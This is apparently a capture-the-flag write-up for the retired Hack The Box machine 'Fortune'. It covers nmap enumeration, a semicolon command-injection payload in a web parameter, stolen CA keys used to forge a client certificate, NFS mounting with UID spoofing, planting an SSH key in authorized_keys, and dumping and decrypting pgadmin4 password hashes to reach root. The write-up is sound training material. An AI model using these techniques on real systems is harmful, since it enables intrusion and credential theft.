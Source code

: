 # Fortune

This is the write-up for the box Fortune that got retired at the 3rd August 2019.
My IP address was 10.10.15.241 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.127    fortune.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/fortune.nmap 10.10.10.127
```

We get following results:
```markdown
PORT    STATE SERVICE    VERSION
22/tcp  open  ssh        OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 07:ca:21:f4:e0:d2:c6:9e:a8:f7:61:df:d7:ef:b1:f4 (RSA)
|   256 30:4b:25:47:17:84:af:60:e2:80:20:9d:fd:86:88:46 (ECDSA)
|_  256 93:56:4a:ee:87:9d:f6:5b:f9:d9:25:a6:d8:e0:08:7e (ED25519)
80/tcp  open  http       OpenBSD httpd
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
```

## Checking HTTP (Port 80)

This is a page that gets you different fortunes whenever you reload it, so there must be some server-side things that happen.
Send it to Burpsuite and try some characters in the _db_ parameter, to see how the page reacts.
As special characters let it error out, we try some fuzzing with **WFUZZ**.

```markdown
wfuzz --hh 293 -w /usr/share/seclists/Fuzzing/special-chars.txt -d db=startrekFUZZ http://10.10.10.127/select
```

This gets us the following characters: &, +, \, ;
The _ampersand_ and the _plus_ are uninteresting for us and the _backslash_ is for escaping characters.
So the only thing that is interesting is the _semicolon_.

If we put a command after the value in the parameter _db_ like this:

```markdown
db=startrek;id
```

Then the command gets executed. This means we try to get a reverse shell with **Netcat**.
It is installed on the machine but doesn't work. There is probably a firewall in the way because pinging works fine.
We are writing our own script to get a reverse shell, that is in this folder named **cmd-inject.py**

Now we have pseudo reverse shell as the user \_fortune.

### Pseudo reverse shell on box
Interesting files on the box:
- /etc/authpf/authpf.rules
  - This are the rules for BSDs Firewall _Packet Filter_
- /var/appsrv/fortune/fortuned.py
  - Flask App on the website
  
We are looking for the signing keys to check the HTTPS page:
```markdown
find / -name *.pem
```

And we find the following keys:
- /home/bob/ca/intermediate/certs/intermediate.cert.pem
- /home/bob/ca/intermediate/private/intermediate.key.pem

## Checking HTTPS (443)

Checking the certificate:
```markdown
openssl s_client -connect 10.10.10.127:443
```

We get potential users named _charlie_ and _bob_

### Creating our own key

Putting contents of intermediate.cert.pem into _intermediate.cert_.
Putting contents of intermediate.key.pem into _intermediate.key_.

```markdown
openssl genrsa -out kyuuji.key 2048
openssl req -new -key kyuuji.key -out kyuuji.csr
openssl x509 -req -in kyuuji.csr -CA intermediate.cert -CAkey intermediate.key -CAcreateserial -out kyuuji.pem -days 1024 -sha256
```

Formatting it into PKCS12 format for Firefox:
```markdown
openssl pkcs12 -export -out kyuuji.pfx -inkey kyuuji.key -in kyuuji.pem -certfile intermediate.cert
```

Now import the .pfx file into the Firefox certificates and the HTTPS site works.
It says:
> You will need to use the local authpf service to obtain elevated network access. If you do not already have the appropriate SSH key pair, then you will need to generate one and configure your local system appropriately to proceed.

The word _generate_ sends us to the path /generate where we can generate a SSH key and copy it into a new file.

After checking the /etc/passwd with out pseudo-shell we can try all possible users and this one works:

```markdown
ssh -i fortune.ssh nfsuser@10.10.10.127
```

But instead of a shell we get this:
> Hello nfsuser. You are authenticated from host "10.10.15.241"

## Next Scan

We do a new nmap scan to see if new ports are open when our SSH connection stays open.

```markdown
nmap 10.10.10.127
```

We get 2 more open ports now:
- Port 8081 as blackice-icecap
- Port 2049 as nfs

### Checking NFS

```markdown
showmount -e 10.10.10.127
```
This command is included in the _nfs-common_ package.

The out we get is: /home (everyone).
That means we can mount this nfs share.

```markdown
mount -t nfs -o vers=2 10.10.10.127:/home /mnt
```

In our /mnt folder we can see the home folders of charlie, bob and nfsuser, so let's check their files.
The user charlie has the UID of one of my users (user01) on my machine, so if I switch to that user I can access his files.

```markdown
su - user01
cat charlie/user.txt
cat mbox
```

**We now have user.txt.**

The mbox file is a mail file and says the following:
> Thanks for setting-up pgadmin4 for me. Seems to work great so far.
> BTW: I set the dba password to the same as root. I hope you don't mind.

We now know that there is a Postgres database that has the same password as root and bob can read it.

## Privilege Escalation

Creating our own key to escalate privileges to charlie.

```markdown
ssh-keygen -f charlie.ssh
(Copy content of charlie.ssh.pub into /mnt/charlie/.ssh/authorized_keys)
chmod 600 charlie.ssh
```

Logging in with charlies SSH key:
```markdown
ssh -i charlie.ssh charlie@10.10.10.127
```

We escalated our privileges to charlie and have a SSH session open!

### Looking for the Postgres database

We should now read the contents of the postgres database where the password for root is in:

```markdown
cd /var/appsrv/pgadmin4
sqlite3 pgadmin4.db
.dump
```

This will give us the hash of the password but if you want to search more granular:

```markdown
sqlite3 pgadmin4.db ".schema" | grep -i Create
sqlite3 pgadmin4.db "select * from user;"
sqlite3 pgadmin4.db "select * from server;"
```

- Hash of server: utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz
- Hash of bob: $pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg

#### Find out what those hashes are

If we read the file _/var/appsrv/pgadmin4/pgadmin4.ini_ we see that the source code of the application is in the folder _/usr/local/pgadmin4/pgadmin4-3.4/web/_

So lets go there and look for the word _decrypt_:

```markdown
grep -iRl decrypt .
```

The file _./pgadmin/utils/crypto.py_ looks very interesting and is the one that decrypts the hashes.
I copy the contents of the file on my machine and put the following line at the end of it:

```markdown
print decrypt("utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz","$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg")
```

Execute crypto.py and we get the decrypted password of bob.
If we now _su -_ we are root on the machine.
